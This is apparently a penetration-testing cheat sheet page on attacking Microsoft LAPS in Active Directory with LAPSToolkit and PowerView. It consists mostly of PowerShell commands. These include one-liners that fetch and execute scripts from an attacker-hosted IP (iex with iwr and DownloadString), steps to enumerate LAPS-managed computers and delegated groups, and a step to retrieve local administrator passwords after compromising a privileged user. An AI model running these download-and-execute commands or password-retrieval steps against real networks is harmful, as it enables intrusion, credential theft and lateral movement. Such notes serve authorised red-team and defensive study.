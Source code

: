 # LAPS

## LAPS ToolKit 

```csharp
iex(iwr http://10.110.0.66:8001/LAPSToolkit.ps1) 
```

### Load the module 

```csharp
. .\LAPSToolkit.ps1
or
Import-Module .\LAPSToolkit.ps1
```

### Locate computers

```csharp
Get-LAPSComputers
```

![](../../../../../.gitbook/assets/image%20%28148%29.png)

### Find Delegate groups

```csharp
Find-LAPSDelegatedGroups
```

![](../../../../../.gitbook/assets/image%20%28281%29.png)

### Enumerate groups

#### Load powerview

```csharp
 iex(new-object net.webclient).downloadstring('http://10.110.0.66:8000/powerview.ps1')
```

```csharp
Get-NetGroupMember -GroupName <GROUP_NAME>
```

![](../../../../../.gitbook/assets/image%20%2825%29.png)

### Retrieve password

{% hint style="info" %}
Require to compromise a privilege user
{% endhint %}

```csharp
Get-LAPSComputers
```

![](../../../../../.gitbook/assets/image%20%28249%29%20%281%29.png)

## Resources

{% embed url="https://github.com/leoloobeek/LAPSToolkit" %}

